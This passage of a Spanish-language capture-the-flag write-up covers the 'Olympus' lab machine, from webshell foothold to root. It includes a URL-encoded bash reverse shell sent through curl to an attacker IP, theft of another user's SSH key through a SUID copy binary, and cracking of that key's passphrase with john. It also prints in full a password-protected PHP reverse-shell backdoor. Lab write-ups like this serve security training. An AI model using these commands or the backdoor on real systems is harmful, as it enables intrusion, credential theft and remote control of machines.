

La manera de como hago para obtener una shell es con la herramienta `curl` y poniendo la revershell en formato [urlencode](https://www.urlencoder.org/)  

```php
bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F10.9.115.196%2F443%20%3C%261%27
```

Realizamos nuestra petición ingresando nuestra revershell. 

```php
 curl -s http://chat.olympus.thm/uploads/96e5bb8c98e8d5bc991584b90a4601c1.php?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F10.9.115.196%2F443%20%3C%261%27
```

Antes de realizar la petición procura ponerte a la escucha con `ncat` en el puerto de tu preferencia teniendo en cuenta que este puerto debe también ir en la revershell de tu petición



## Escala de privilegios 

### Usuario: www-data
Siendo el usuario `www-data` tenemos que enumerar los privilegios para poder escalar privilegios.

```php
www-data@olympus:/var/www/olympus.thm$ ls
joom.zip  olympus.sql  public_html                                                                                                                     
www-data@olympus:/var/www/olympus.thm$ pwd   
/var/www/olympus.thm                                                                                                                                   
www-data@olympus:/var/www/olympus.thm$    
```

Al enumerar los permisos `SIUD` nos toparemos con un binario que no es común. En los permisos del binario podemos observar que podemos ejecutar y leer el contenido.

```php
www-data@olympus:/var/www/chat.olympus.thm/public_html$ find / -type f -perm -04000 -ls 2>/dev/null
.
.
.
   278772     20 -rwsr-xr-x   1 zeus     zeus          17728 Apr 18  2022 /usr/bin/cputils
     1097    164 -rwsr-xr-x   1 root     root         166056 Jan 19  2021 /usr/bin/sudo
      824     56 -rwsr-xr-x   1 root     root          55528 Feb  7  2022 /usr/bin/mount
.
.
.
```

Si ejecutamos el binario nos daremos cuenta que este hace una copia de los archivos que le indiquemos para luego guardarlo en una nueva.

```php
www-data@olympus:/tmp$ cputils 
  ____ ____        _   _ _     
 / ___|  _ \ _   _| |_(_) |___ 
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/
                               
Enter the Name of Source File: /home/zeus/.ssh/id_rsa

Enter the Name of Target File: /tmp/id_rsa
```

Por lo que procedernos a realizar una copia del archivo `id_rsa` del usuario `zeus`. Pudimos realizar una copia del id_rsa, pero vemos que esta encriptada por lo que haremos uso de `ssh2john`  para obtener el hash y poder crackearla.

Primero obtenemos el hash.

```php
❯ ssh2john id_rsa > hash
```

Segundo, iniciamos a crackear el hash que se obtuvo.

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snowflake        (id_rsa)     
1g 0:00:00:44 DONE (2023-11-25 01:53) 0.02225g/s 33.46p/s 33.46c/s 33.46C/s maurice..bunny
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Las credenciales que se obtuvieron son:
```php
zeus - id_rsa: snowflake
```

Ahora que ya sabemos la credencial del `id_rsa` podemos logearnos por ssh con el usuario zeus.

### Usuario: Zeus 



Enumerando el grupo `zeus` encontraremos ciertos archivos

```php
zeus@olympus:~$  id
uid=1000(zeus) gid=1000(zeus) groups=1000(zeus),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
```

Los archivos que encontramos en las cuales tenemos permiso tiene un contenido que al parecer nos envia una revershell.

```php
zeus@olympus:/var/www$ find / -type f -group zeus -ls 2>/dev/null| grep -vE 'sys|proc'
.
.
.
   278736      0 -rwxr-xr-x   1 root     zeus            0 Apr 14  2022 /var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/index.html
   282684      4 -rwxr-xr-x   1 root     zeus         1589 Jul 15  2022 /var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php
    11776     64 -rw-r-----   1 zeus     zeus        63991 Apr 14  2022 /var/crash/_usr_bin_cp-utils.1000.crash
.
.
```

Aqui tenemos el contenido del archivos a mas detalle:

```php
<?php
$pass = "a7c5ffcf139742f52a5267c4a0674129";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];

$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";

chdir("/"); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die("couldn't open socket");

$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);
stream_set_blocking($sock, 0);

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[x]);
proc_close($proc);
?>

```

si vamos al sitio web con la ruta `0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php` visualizaremos un panel que nos pide una contraseña, contraseña que se muestra en el codigo fuente del archivo php 
` contraseña: a7c5ffcf139742f52a5267c4a0674129`



Ingresando la cotraseña nos redirige a un contenido que al parecer es un backdoor que usaremos para escalar privilegios hasta root.



Ingresamos otra vez con la ip de la maquina atacante y el puerto.



Antes de hacer la petición ponemos a la escucha la herramienta `ncat` en el puerto de nuestra preferencia.

### Usuario: root



¡VAMOS!

Happy hacking :)

